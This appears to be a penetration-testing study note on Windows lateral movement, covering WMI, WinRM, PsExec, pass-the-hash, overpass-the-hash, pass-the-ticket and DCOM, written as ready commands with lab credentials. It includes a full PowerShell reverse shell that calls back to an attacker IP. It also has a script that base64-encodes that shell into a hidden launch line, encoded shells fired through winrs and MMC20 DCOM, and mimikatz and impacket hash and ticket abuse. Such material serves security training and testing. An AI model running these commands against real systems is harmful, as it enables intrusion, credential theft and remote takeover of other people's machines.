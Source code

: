 # WMI and WinRM
## WMI
WMI is capable of creating processes via the Create method from the Win32_Process class. it communicates through RPC over port 135 for remote access and uses a higher-range port (19152-65535) for session data.
To create a process on the remote target via WMI, we need creds of a member of Administrators local group, which can also be a domain user. 
UAC remote restrictions does not apply to domain users, so we can use full privileges while moving laterally.
```
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```

WMI job returned the PID of the newly created process and a return value of 0 meaning that process has been created successfully.
>System processes and services always run in session 0 as part of session isolation, which was introduced in Windows Vista. Because the WMI Provider Host is running as a system service, newly created processes through WMI are also spawned in session 0.

For powershell, we have to create PSCredential object that will store our session username and password. Store the username and password in variables and then secure the password via the `ConvertTo-SecureString` cmdlet.
```powershell
$username = 'jeff';
$password = 'HenchmanPutridBonbon11';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```
Next, create a Common Information Model (CIM) via the `New-CimSession` cmdlet. Specify DCOM as the protocol for the WMI session with the `New-CimSessionOption` cmdlet. Then, create a new session against our target IP and supply PSCredential object along with the session options. Lastly, we'll define 'calc' as the payload to be executed by WMI.
```powershell
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.238.72 -Credential $credential -SessionOption $Options 
$command = 'cmd.exe';
```
Tie together all the arguments by issuing the `Invoke-CimMethod` cmdlet and supply Win32_Process and Create as ClassName and MethodName.
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
Replace the prevs payload with a full reverse shell in PowerShell.
Encode it in base64 with python:
```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```
## WinRM
WinRM is the Microsoft version of the WS-Management protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

WinRM is implemented in numerous built-in utilities, such as `winrs`.
```
winrs -r:web04 -u:jeff -p:HenchmanPutridBonbon11  "cmd /c hostname & whoami"
```
>For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

Replace the prevs commands with the base64 encoded reverse-shell:
```
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```
Using PowerShell for WinRM via `New-PSSession` cmdlet by providing the IP of the target host along with the credentials in a credential object format similar to what we did previously.
```powershell
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
```
To interact with the session ID 1 we created, we can issue the `Enter-PSSession` cmdlet followed by the session ID.
```powershell
PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```
# PsExec
PsExec - replace telnet-like applications and provide remote execution of processes on other systems through an interactive console.
Requirements to use PsExec:
- The user that authenticates to the target machine needs to be part of the Administrator local group.
- ADMIN$ share must be available and File and Printer Sharing has to be turned on.
In order to execute the command remotely, PsExec performs the following tasks:
- Writes psexesvc.exe into the C:\Windows directory
- Creates and spawns a service on the remote host
- Runs the requested program/command as a child process of psexesvc.exe
Arguments:
- -i - start an interactive session on the remote host
- -u username in format domain\user
- -p password
```
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```
# Pass the Hash
Pass the Hash - technique that allows an attacker to authenticate to a remote system or service using a user's NTLM hash instead of the associated plaintext password.
This will not work against servers with Kerberos Authentication only.
Toolkits:
- PsExec from Metasploit
- Passing-the-hash toolkit
- Impacket
Attacker connects to the victim using the Server Message Block (SMB) protocol and performs authentication using the NTLM hash.
Most tools will abuse PtH to start a Windows service and communicate with it using Named Pipes. This is done using the Service Control Manager API.
Requires:
- SMB connection through the firewall (port 445)
- Windows File and Printer Sharing feature to be enabled
- ADMIN$ share must be available
- Attacker must present valid creds with local admin permissions.
Using wmiexec from Impacket:
```bash
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
# Overpass the Hash
With overpass the hash we can 'over' abuse an NTLM user hash to gaint a full Kerberos TGT, and then we can get TGS.
To do overpass the hash - sekurlsa::pth from mimikatz.
Example:
```
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell 
```
>At this point, running the _whoami_ command on the newly created PowerShell session would show _jeff_'s identity instead of _jen_. While this could be confusing, this is the intended behavior of the _whoami_ utility which only checks the current process's token and it does not inspect any imported kerberos tickets

After we converted NTLM to Kerberos ticket, we can use Psexec without creds.
# Pass the Ticket
Pass the Ticket attack takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service. 
If the service tickets belong to the current user, then no admin privs are required.
To export tickets to .kirbi files:
```
sekurlsa::tickets /export
```
To re-inject the ticket:
```
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```
# DCOM
DCOM - Distributed Component Object Model
COM - a system for creating software components that interact with each other. While COM was created for either same-process or cross-process interaction, it was extended to _Distributed Component Object Model_ (DCOM) for interaction between multiple computers over a network.
Interacting with DCOM is performed over RPC on TCP port 135 and local admin access is required to call the DCOM service control manager, which is an API.
DCOM lateral movement technique is based on the MMC COM application that is employed for scripted automation of Windows systems.
MMC Application class allows the creation of Application Objects which expose the ExecuteShellCommand method under the Document.ActiveView property.
With powershell prompt, we can instantiate a remote MMC 2.0 application by specifying the target IP as the second argument of the GetTypeFromProgID method.
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
```
Then we can use ExecuteShellCommand which requires 4 arguments:
- Command
- Directory
- Parameters
- WindowState
Extend the attack with a full reverse shell:
```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```
